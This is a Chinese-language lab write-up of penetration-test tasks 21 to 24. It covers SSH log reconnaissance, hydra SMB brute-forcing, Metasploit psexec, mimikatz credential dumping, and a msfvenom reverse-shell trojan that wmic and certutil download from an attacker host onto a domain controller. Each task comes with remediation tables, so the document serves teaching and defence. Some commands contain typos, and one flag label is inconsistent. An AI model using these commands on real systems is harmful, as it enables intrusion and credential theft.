该任务核心是对低权限用户的 **提权链分析与绕过技巧**，说明了以下几点：
- 即使部署了 `rbash`，若未配合限制可执行程序，极易被绕过；
- `sudo` 权限一旦配置不当（尤其是类似 `find`, `vim`, `awk` 等工具），可轻易被用作 **提权工具链**；
- 即使是单用户权限泄露，也可能导致 root 权限获取。

## 问题二十一
### 渗透流程
<弱口令漏洞>
获取管理员电脑的administrator密码（flag21）

1. 信息收集
	查看secure日志：
	从上一任务获取的机器shell中读取ssh登录日志，
	查找内网中哪个ip登录了192.168.100.0/24 区域中的机器，
	因为管理员一般都会使用远程管理服务器的方式，
	而远程管理linux服务器最常用的方式就是远程登录ssh然后进行管理。
	Linux服务器中存放ssh的登录日志在/var/log目录下，
	文件名称以secure开头，/ar/log目录中的文件。

	ssh登录成功和失败在secure文件中都会有明显的标识，
	现在是需要寻找登录成功的日志，用以查找疑似管理员登录的ip地址，
	而登录成功的标志为Accepted，对log目录下的所有文件进行查找。
	
	其中的192.168.8.94的ip所在网络是新出现的，
	猜测此ip就是网络管理电脑的ip，使用msf中的portscan模块进行扫描，
	但是在使用之前需要先将192.168.8.0/24网络添加到msf的路由中。

2. 扫描目标IP对应端口
	输入background退出meterpreter会话，
	使用 auxiliary/scanner/portscan/tcp模块 对新的IP进行端口扫描。

	从得到的信息中可以看出这很可能是一台windows机器，并且开放了445端口，
	尝试使用hydra爆破这台机器的smb用户名和密码，
	因为其他用户名我们目前不知道，所以使用administrator作为用户名进行爆破，
	密码使用/root目录下的password-top1000.txt，
	在终端中输入:
	`proxychains hydra -l administrator -P /rootpassword-top1000.txt 192.168.8.94 smb -V`

3. 夺旗：flag21
	爆破出来的密码就是 flag21{1234.com}。

### **漏洞链条分析**

|漏洞阶段|漏洞描述|漏洞利用方式|
|---|---|---|
|**SSH 登录日志泄露**|`/var/log/secure` 文件中暴露了管理员登录 IP，可被攻击者用于进一步侦察。|使用 `grep "Accepted"` 分析 SSH 成功登录记录，推测管理终端位置。|
|**SMB 服务暴露**|管理端口（445）未做访问控制，对外开放。|使用 Metasploit 扫描 SMB 服务端口，判断是否存在攻击面。|
|**弱口令攻击**|管理员账户使用了易被猜中的常见密码。|使用 Hydra 工具进行基于字典的 SMB 密码爆破，成功获取密码。|
|**缺乏暴力破解防护**|没有限制登录失败次数或设置锁定策略。|可无限尝试密码组合，暴力破解成为可行路径。|
|**代理逃逸检测**|攻击过程通过 Proxychains 发起，规避网络审计。|Proxychains 避免直接暴露攻击来源，绕过简单防火墙规则。|


###  **修复建议**

|漏洞类型|防御措施|
|---|---|
|**SSH 登录日志泄露**|1. 定期审计 SSH 登录日志，配置 **审计告警系统**。2. 使用工具（如 logwatch、fail2ban）及时检测异常登录。|
|**SMB 服务暴露**|1. 限制 445 端口访问，仅允许可信主机连接。2. 使用 VLAN 或防火墙进行网络隔离。|
|**弱口令及暴力破解**|1. 禁用默认账户如 `administrator`，或重命名后启用。2. 强制执行 **复杂密码策略**（长度、字符集、周期更新）。3. 启用 **账户锁定机制**：N 次失败登录后锁定账户。|
|**SMB 访问认证机制**|1. 引入 **多因素认证（MFA）**，增加认证强度。2. 通过组策略限制远程访问策略及账户登录行为。|
|**Proxychains 匿名访问**|1. 部署 **出入口网络审计与监控**，识别代理通道行为。2. 启用 **深度包检测（DPI）**，分析加密流量中的异常访问模式。|


### **总结**

flag21 任务通过对 Linux 系统的 `/var/log/secure` 登录日志进行分析，识别出管理员远程登录的来源 IP，并以此为突破点，利用 SMB 服务未设访问控制和弱口令问题，成功发起密码爆破并获取 Flag。  
该过程清晰展示了日志泄露、服务暴露、口令管理不足和访问控制松散四类典型内网安全漏洞。有效防护应从**日志审计、访问控制、身份认证机制、暴力破解防护**四个层面入手，构建更稳固的内网防线。


---

# 8. 实验八

## 问题二十二
### 渗透流程
<任意文件读取>
获取管理员电脑中C盘的flag22。

1. 使用 psexec模块 接管权限
	已经获取了administrator用户的密码，可以使用 msf 中的 psexec模块 对windows机器进行攻击

2. 夺旗：flag22
	使用 Meterpreter 读取C盘下的 flag22{7c043d4b5b12055c}。


### **漏洞链条分析**

|漏洞阶段|漏洞描述|利用方式|
|---|---|---|
|**SMB 服务暴露**|Windows 目标主机开放了 SMB（445）端口，允许基于身份认证进行远程访问。|使用 Metasploit 的 `psexec` 模块，依赖 SMB 接口远程执行命令。|
|**弱密码/已知凭据滥用**|获取的 `administrator` 密码未及时更新或过于简单，导致可重用。|使用已知密码登录远程主机，实现身份提升。|
|**命令执行权限控制不严**|SMB 身份认证成功即赋予远程命令执行权限，缺乏细粒度授权。|利用合法 SMB 账户直接投放 Meterpreter 会话并控制目标系统。|
|**后门控制无检测机制**|未部署入侵检测系统，无法识别并阻断 Meterpreter 反向连接和命令。|Meterpreter 提供全权限文件系统访问能力，读取机密文件（flag22）。|


### **修复建议**

| 攻击阶段         | 防御建议                                                                                |
| ------------ | ----------------------------------------------------------------------------------- |
| **SMB 服务暴露** | 禁止 SMB 端口对公网开放，仅限内网可访问；使用防火墙策略限制指定 IP/网段访问 SMB。                                     |
| **账户权限滥用**   | 避免使用默认 `administrator`，可更名或禁用；配置最小权限原则（Least Privilege）；启用登录失败锁定策略。                 |
| **远程命令执行**   | 关闭 `Admin$` 等远程共享；禁用远程服务安装权限，阻断 `psexec` 类工具使用途径。                                   |
| **后门植入与控制**  | 部署 IDS/IPS 系统监测 Meterpreter 特征行为（如反向 TCP）；启用 Windows Defender ATP 或 EDR 方案进行实时行为监控。 |
| **敏感文件访问保护** | 为敏感路径（如 `C:\` 根目录）设置访问权限控制；开启审计日志，记录所有关键目录文件的访问行为。                                  |

---

###  **总结**

flag22 的获取过程集中展现了 **SMB 服务漏洞链**的典型攻击模式：  
**凭据重用 → 模块投放 → 后门控制 → 文件读取**。
此类攻击尤其常见于缺乏有效网络分段、账户权限过高、系统缺乏审计机制的环境中。
 **防守关键点应聚焦于：**
- 账户安全（密码复杂性、权限最小化）；
- 网络隔离（防止横向渗透）；
- 后门监控（检测异常连接和行为）；
- 主机防护（系统日志、共享服务审计）。

## 问题二十三
### 渗透流程
<Meterpreter 后门> + <mimikatz 提取密码>
获取 域账号eviluser 的密码（flag23）

1. 使用 Meterpreter 的 mimikatz模块
	Meterpreter 中默认自带 mimikatz模块 ，可以使用`load mimikatz`
	但是mimikatz执行失败了

2. 上传并执行 mimikatz
	将攻击机上的 mimikatz工具 上传到目标主机中，
	在 meterpreter 中切换到shell。

	执行 mimikatz
	执行 privilege::debug 提权

3. 夺旗：flag23
	读取当前登录账号密码，执行命令:sekurlsa::logonpasswords，
	所读取内容就是flag23。
	flag23{1gaz2wsx!QAZ@WSX}。


### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|初始控制|Meterpreter 会话|攻击者通过远程渗透获得 Meterpreter 会话，具备目标系统的控制权限。|
|工具上传|mimikatz 上传|利用 Meterpreter 上传 mimikatz 到目标主机，规避被禁用模块的限制。|
|权限提升|privilege::debug|通过启用调试权限（SeDebugPrivilege）获取更高访问级别，访问 LSASS 所需。|
|信息提取|sekurlsa::logonpasswords|使用 mimikatz 直接从内存中提取当前登录用户（域账号）的明文密码和 NTLM Hash。|
|凭据获取|获得域用户密码|获取目标域用户 `eviluser` 的明文密码，成功读取 flag23。|

---

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|mimikatz 提取密码|1. 启用 Credential Guard，防止从内存中提取明文凭据。2. 禁用 WDigest 认证（防止明文密码被加载）。3. 启用 LSASS 保护（RunAsPPL），限制 mimikatz 访问权限。4. 加强主机杀毒策略，检测和阻断 mimikatz 行为特征。|
|调试权限滥用|1. 禁用 SeDebugPrivilege，普通用户默认不应拥有此权限。2. 通过组策略限制账户权限分配，仅特定管理员账户具备调试权限。|
|Meterpreter 控制|1. 使用主机入侵检测系统（HIDS）识别 Meterpreter 连接特征。2. 监控非常规 shell 连接及长时间空闲会话。3. 加强网络边界防护，限制反弹 shell 的出口连接。|
|凭据缓存风险|1. 禁用不必要的登录类型，如 RDP、远程服务。2. 设置账户登录失败锁定策略，防止暴力尝试。3. 定期清理凭据缓存与重启服务，减少暴露窗口。|


### **总结**

该攻击过程通过已获取的 Meterpreter 会话为基础，上传并执行 mimikatz 工具，成功提取域用户 `eviluser` 的明文密码，体现了典型的后渗透攻击链：控制会话 → 权限提权 → 凭据获取。mimikatz 是最常被用于 Windows 环境的密码提取工具，其强大功能要求防御方必须从主机加固、内存保护、权限控制、日志审计等多方面入手构建纵深防御体系。

## 问题二十四
<远程命令执行(WMIC)> + <弱口令漏洞>
获取 域控服务器C盘下的flag

1. 查找域控
	查看域用户 `net user /domain`
	查看域控 `net group“domain controllers” /domain`
	查看域内主机列表

2. 查找域控IP
	从上面命令知道了域名为 adsec.com，域控主机名为 win2016-dc01，使用ping命令得到ip

3. psexec 接管域控
	已经知道了域控的机器，和一个域内的用户，尝试使用 psexec 的方式来攻击域控机器。
	但此方法失败了。

4. 生成木马
	通过psexec得到meterpreter shell的方法失败，尝试下列方法
	1. 生成木马
	2. 使用wmic通过域控下载msf木马(需要一个http服务，提供木马下载链接)
	3. 执行木马
	`msfvenom -p windows/meterpreter/reverse tcp host=202.1.1.20 lport=5555 -f exe -o msfexe`

5. 启动木马并反弹监听端口
	在当前目录中搭建简易web服务器，
	后重新启动一个 msfconsole 终端，并监听5555端口。

6. 使用域用户下载木马
	`wmic /node:192.168.8.80 /user:eviluser /password:"1gaz2wsx!QAZ@WSX" process call create "cmd.exe /c certutil.exe -urlcache -split -f http://202.1.1.20:7777/msfexe C:\\msf.exe"`

7. 使用域用户执行木马
	执行下载命令后，msfexe 就已经在 192.168.8.80的c盘根目录中了，再执行一次命令使其运行。
	`wmic /node:192.168.8.80 /user:eviluser /password:"1gaz2wsx!QAZ@WSX" process call create "cmd.exe /c C:\\msfexe"`

8. 夺旗：flag24
	执行木马后，反弹端口监听到来自 meterpreter 的会话。
	直接查看C盘目录的 flag24.txt 即可。
	内容：flag25{fb547ec167bc8389}


### **漏洞链条分析**

|阶段|技术要点|说明|
|---|---|---|
|域信息收集|net user /domain、net group /domain|利用域查询命令获取域名、域控主机名等关键信息。|
|域控定位|ping 获取 IP|通过域控主机名解析获得对应 IP，便于远程连接。|
|初始尝试失败|PsExec 利用失败|SMB 防护或权限控制阻止了 psexec 成功执行。|
|木马生成|msfvenom 创建反向 shell|使用 msfvenom 创建 Windows 平台下的反向连接木马。|
|文件传输|certutil 下载木马|利用 WMIC 执行 certutil 从外部 HTTP 服务下载木马到目标主机。|
|木马执行|WMIC 执行 payload|再次利用 WMIC 执行目标主机上木马，触发反向连接。|
|系统控制|Meterpreter 会话建立|成功接管目标系统后进入 Meterpreter 会话。|
|信息获取|获取 flag24.txt|访问域控 C 盘，成功读取 flag24 内容。|

### **修复建议**

|漏洞类型|防御措施|
|---|---|
|远程命令执行（WMIC）|1. 禁用或限制 WMIC 使用范围，限制普通域用户远程调用权限。2. 阻断 TCP 135、445 等远程管理端口，防止 DCOM/RPC 滥用。|
|反向连接木马|1. 部署 IDS/IPS 检测反向 shell 通信行为（如 Meterpreter、C2 Beacon）。2. 对外通信设置白名单策略，禁止服务器主动连接外部未授权主机。|
|域用户权限控制|1. 落实最小权限原则，域用户不应具备远程进程创建能力。2. 开启账户操作审计，及时发现远程命令异常行为。|
|木马下载工具滥用|1. 限制 certutil、powershell、bitsadmin 等可被滥用的系统工具访问外部网络。2. 配置应用白名单，仅允许授权程序执行。|
|密码管理|1. 强制域用户使用强密码策略，并定期轮换。2. 引入 MFA，防止凭据泄露后被滥用。|

### **总结**
本攻击链展示了攻击者在常规方法（如 PsExec）失效后，灵活切换至 WMIC 与 certutil 组合实现文件传输与远程执行，最终获取域控主机控制权，并成功提取 flag24 内容。此类攻击体现了典型的“绕过式渗透”策略，强调了对系统管理工具（Living off the Land Binaries, LOLBins）的滥用问题。

应对建议包括加强主机与网络边界防护、限制脚本工具行为、细化用户权限模型，并结合行为监控和多因素认证实现整体防护闭环。


---

